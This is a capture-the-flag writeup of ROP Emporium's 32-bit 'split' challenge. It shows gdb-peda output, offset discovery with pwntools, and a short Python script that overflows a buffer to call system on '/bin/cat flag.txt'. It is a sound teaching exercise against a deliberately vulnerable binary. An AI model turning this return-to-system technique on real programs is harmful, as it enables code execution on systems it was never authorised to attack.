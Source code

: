```yaml
---
layout: post
title: "ropemporium - split 32bit"
---
```


This is a writeup on the (32 bit) split challenge from ropemporium.

#  Description
_In this challenge the elements that allowed you to complete the ret2win challenge are still present, they've just been split apart. Find them and recombine them using a short ROP chain._

I started off with running the executable normally, to see what I was working with.
```
split by ROP Emporium
32bits

Contriving a reason to ask user for data...
> test input

Exiting
```
I started by creating a string pattern with `pwntools`:
```python
>>> from pwn import cyclic
>>> cyclic(40)
'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaa'
>>>
```
```
$ echo -n aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaa > payload
$ gdb ./split32 -q
Reading symbols from ./split32...(no debugging symbols found)...done.
gdb-peda$ r < payload 
Starting program: /home/pwn/ropemporium/split/32/split32 < payload
split by ROP Emporium
32bits

Contriving a reason to ask user for data...
> 
Exiting

Program received signal SIGSEGV, Segmentation fault.

[----------------------------------registers-----------------------------------]
EAX: 0x0 
EBX: 0x0 
ECX: 0x80485e6 (<main+107>:	add    esp,0x10)
EDX: 0xf7f9a890 --> 0x0 
ESI: 0xf7f99000 --> 0x1d4d6c 
EDI: 0x0 
EBP: 0x804870e ("\nExiting")
ESP: 0x80485e6 (<main+107>:	add    esp,0x10)
EIP: 0xfffffe3a
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0xfffffe3a
[------------------------------------stack-------------------------------------]
0000| 0x80485e6 (<main+107>:	add    esp,0x10)
0004| 0x80485ea (<main+111>:	add    BYTE PTR [eax],al)
0008| 0x80485ee (<main+115>:	mov    ecx,DWORD PTR [ebp-0x4])
0012| 0x80485f2 (<main+119>:	lea    esp,[ecx-0x4])
0016| 0x80485f6 (<pwnme>:	push   ebp)
0020| 0x80485fa (<pwnme+4>:	in     al,dx)
0024| 0x80485fe (<pwnme+8>:	add    al,0x6a)
0028| 0x8048602 (<pwnme+12>:	add    BYTE PTR [ebp-0x17af27bb],cl)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0xfffffe3a in ?? ()
gdb-peda$ 
```
it wasn't very clear on what went wrong, so I tried a larger input with a size of 50.
upon running it segfaulted on a different address
```
Stopped reason: SIGSEGV
0x6161616c in ?? ()
```
Then I tried to find out the length of the padding that I would need to overflow successfully.
```python
>>> from pwn import fit
>>> fit({0x6161616c:'B'})
'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaaB'
>>> len(_)
45
```
So the length was 44, because the `B` is where it starts overwriting the return address.
Now I just need the address of a command to execute and the address of a call to `system()`.
address of `system()`:
```
gdb-peda$ disassemble usefulFunction 
Dump of assembler code for function usefulFunction:
   0x08048649 <+0>:	push   ebp
   0x0804864a <+1>:	mov    ebp,esp
   0x0804864c <+3>:	sub    esp,0x8
   0x0804864f <+6>:	sub    esp,0xc
   0x08048652 <+9>:	push   0x8048747
   0x08048657 <+14>:	call   0x8048430 <system@plt>
   0x0804865c <+19>:	add    esp,0x10
   0x0804865f <+22>:	nop
   0x08048660 <+23>:	leave  
   0x08048661 <+24>:	ret    
End of assembler dump.
```
`0x8048430` is what I need to call.
the address of of "/bin/cat flag.txt":
```
gdb-peda$ info var
All defined variables:

Non-debugging symbols:
0x080486e8  _fp_hw
0x080486ec  _IO_stdin_used
0x08048750  __GNU_EH_FRAME_HDR
0x08048894  __FRAME_END__
0x08049f08  __frame_dummy_init_array_entry
0x08049f08  __init_array_start
0x08049f0c  __do_global_dtors_aux_fini_array_entry
0x08049f0c  __init_array_end
0x08049f10  __JCR_END__
0x08049f10  __JCR_LIST__
0x08049f14  _DYNAMIC
0x0804a000  _GLOBAL_OFFSET_TABLE_
0x0804a028  __data_start
0x0804a028  data_start
0x0804a02c  __dso_handle
0x0804a030  usefulString
0x0804a04a  __bss_start
0x0804a04a  _edata
0x0804a04c  __TMC_END__
0x0804a060  stderr
0x0804a060  stderr@@GLIBC_2.0
0x0804a080  stdin
0x0804a080  stdin@@GLIBC_2.0
0x0804a084  stdout
0x0804a084  stdout@@GLIBC_2.0
0x0804a088  completed
0x0804a08c  _end
gdb-peda$ x/s &usefulString 
0x804a030 <usefulString>:	"/bin/cat flag.txt"
gdb-peda$ 
```
so `0x804a030` was the address.
For my exploit, the stack frame should look like this:
```
+-------------------+
|    'A' times 44   |
+-------------------+
|    system addr    |
+-------------------+
| usefulString addr |
+-------------------+
```
So I came up with this exploit script:
```python
from pwn import *

bin_cat = p32(0x0804a030)
system_addr = p32(0x08048657)

payload = 'A'*44
payload += system_addr
payload += bin_cat
print payload
```
Upon running:
```
$ python exploit.py | ./split32
split by ROP Emporium
32bits

Contriving a reason to ask user for data...
> ROPE{a_placeholder_32byte_flag!}
Segmentation fault
$ 
```
Success!

link to challenge: [https://ropemporium.com/challenge/split.html](https://ropemporium.com/challenge/split.html)
